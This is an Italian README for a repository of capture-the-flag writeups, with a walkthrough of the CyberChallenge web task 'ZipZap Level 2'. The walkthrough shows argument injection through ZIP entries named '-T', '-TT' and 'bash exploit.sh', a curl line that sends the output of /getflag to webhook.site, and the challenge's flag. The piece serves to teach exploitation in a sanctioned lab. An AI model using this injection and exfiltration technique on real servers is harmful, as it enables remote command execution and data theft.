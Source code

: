 # CTF Writeups & HTB Machines 💀

In questo repository archiviamo tutte le writeups di CTF (Capture The Flag) e macchine HTB (Hack The Box) che ho completato.

## Contenuti 📚
- **CTF Writeups**: Soluzioni dettagliate delle sfide CTF
- **HTB Machines**: Guide complete per le macchine Hack The Box

## Contributi 🤝
Per contribuire con un writeup, contattami via email: `luca.crippa05@gmail.com`

## Licenza ⚖️
Repository condivisa per scopi educativi. Rispetta sempre le policy delle piattaforme quando condividi materiale.

---

# Writeup: WS_1.03 - ZipZap - Level 2

## Overview
- **Categoria:** Web
- **Autore:** bonaff
- **Difficoltà:** 500
- **Stato:** Up (last checked: 17 minutes ago)
- **URL:** [http://zipzap.challs.cyberchallenge.it/](http://zipzap.challs.cyberchallenge.it/)

## Descrizione 📝
Questa challenge è una continuazione del livello 1 di ZipZap, ma con una svolta: la flag non viene più richiamata tramite symlink all'interno di un file ZIP. Invece, bisogna sfruttare la funzionalità di upload e download multiplo dei file ZIP per eseguire un comando in modo indiretto. In sostanza, bisogna invertire il processo e manipolare il comando eseguito durante il download.

## Soluzione 🎯

### 1. Preparazione dei File
L'idea è creare alcuni file con nomi particolari e uno script di exploit che invia la flag a un server esterno (ad es. tramite un webhook).

#### Creazione dei file:
- **File con nome `-T`:**
  ```bash
  touch -- '-T'
  ```
- **File con nome `-TT`:**
  ```bash
  touch -- '-TT'
  ```
- **Comando che esegue `exploit.sh` :**
  ```bash
  touch 'bash exploit.sh'
  ```
- **Script di exploit:** Creare un file chiamato `bash exploit.sh` (il nome include anche spazi) contenente il comando per eseguire la richiesta al webhook. Ad esempio, in `exploit.sh` inserire:
  ```bash
  curl "https://webhook.site/your_webhook_id?$(/getflag)"
  ```
  > **Nota:** Sostituisci `your_webhook_id` con il tuo ID personale su [Webhook.site](https://webhook.site).

### 2. Creazione dell'Archivio ZIP
Una volta creati i file, comprimi tutto in un archivio ZIP mantenendo intatti i nomi speciali:
```bash
zip archivio.zip -y -- *
```
L'opzione `-y` preserva i file esattamente com'è, inclusi eventuali caratteri problematici.

### 3. Upload e Comando Inverso
- **Upload:** Carica l'archivio ZIP sul sito.
- **Download e Esecuzione:** Al momento del download, il sistema esegue internamente un comando simile a:
  ```
  zip -T -TT 'bash exploit.sh'
  ```
  In questo modo il comando esegue lo script `exploit.sh`, il quale invia una richiesta contenente la flag al tuo webhook.

### 4. Ricezione della Flag
Monitorando il tuo endpoint su Webhook.site, vedrai comparire una richiesta simile a:
```
GET /?CCIT{N0t_enOugh_Quot3s} HTTP/1.1
```
La flag estratta sarà quindi:

## Flag 🏁
```
CCIT{N0t_enOugh_Quot3s}
```

## Lezioni Apprese 📚
- **Manipolazione degli archivi ZIP:** La gestione degli upload e download di file ZIP può essere sfruttata in modo creativo per eseguire comandi indiretti.
- **Uso di nomi particolari:** L'utilizzo di nomi di file come `-T` e `-TT` può influenzare il comportamento dei comandi eseguiti sul server.
- **Esecuzione indiretta:** Combinando upload, nomi di file strategici e download, è possibile ottenere l'esecuzione di codice anche in presenza di limitazioni dirette.

## Tools Utilizzati 🛠️
- **Terminale Linux:** Per creare file, script e l'archivio ZIP.
- **Webhook.site:** Per ricevere la flag.
- **Editor di Testo:** Per modificare lo script `exploit.sh`.

---

*Writeup by Luca Crippa - Last Updated: 2024*
